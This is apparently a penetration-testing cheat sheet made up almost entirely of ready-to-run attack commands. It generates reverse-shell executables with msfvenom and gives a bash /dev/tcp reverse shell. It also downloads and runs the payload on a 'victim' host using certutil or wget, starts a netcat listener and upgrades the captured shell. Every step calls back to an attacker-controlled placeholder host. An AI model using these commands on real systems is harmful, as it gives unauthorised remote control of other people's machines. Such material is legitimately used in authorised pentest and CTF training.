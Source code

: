 
## Generate shell 
### with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```
### Simple bash reverse shell
Save it as shell.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  chmod +x shell.elf
  ./shell.elf
```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```
